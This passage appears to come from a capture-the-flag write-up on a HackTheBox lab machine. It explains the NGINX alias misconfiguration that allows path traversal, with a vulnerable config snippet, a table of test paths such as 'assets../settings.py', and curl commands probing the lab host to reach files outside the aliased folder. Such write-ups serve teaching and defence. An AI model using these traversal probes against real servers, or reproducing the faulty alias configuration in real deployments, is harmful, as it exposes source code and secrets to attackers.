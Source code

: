     
    
    location /i {
        alias /data/w3/images/;
    }
    

Orange shows some tests that will identify this problem:

HTTP Response Code | Path  
---|---  
200 | http://target/assets/app.js  
403 | http://target/assets/  
404 | http://target/assets/../settings.py  
403 | http://target/assets../  
200 | http://target/assets../  
200 | http://target/assets../settings.py  
  
The first three are what you’d expect. But the last three are where things get
weird, and that’s the vulnerability.

#### Check for NGINX Alias Bug

I can check for this bug on `www.nestedflanders.htb`. I don’t have the exact
same situation, but I can do the equivalent of the first three tests by
checking for `index.html` and the root and getting 200 for both (in this case
I’m allow to access the dir root, so 200 instead of 403):

    
    
    root@kali# curl -s -k -I https://www.nestedflanders.htb/dev/index.html | grep HTTP
    HTTP/1.1 200 OK
    root@kali# curl -s -k -I https://www.nestedflanders.htb/dev/ | grep HTTP
    HTTP/1.1 200 OK
    

Things get interesting when I try to go up a directory:

    
    
    root@kali# curl -s -k -I https://www.nestedflanders.htb/dev../ | grep HTTP
    HTTP/1.1 403 Forbidden
    

That shouldn’t work. But it gives me a forbidden.

#### Grab Source

Based on my guess of the layout of the folder structure above, I can check for
files on the `html` (default) path:

    
    
    root@kali# curl -s -k -I https://www.nestedflanders.htb/dev../html/ | grep HTTP
    HTTP/1.1 200 OK
    

I can verify that this is the default apache page by removing the `-I` option.

What happens when I get `index.php`? Doing it through a normal path traversal
doesn’t work, but through this alias trick does:
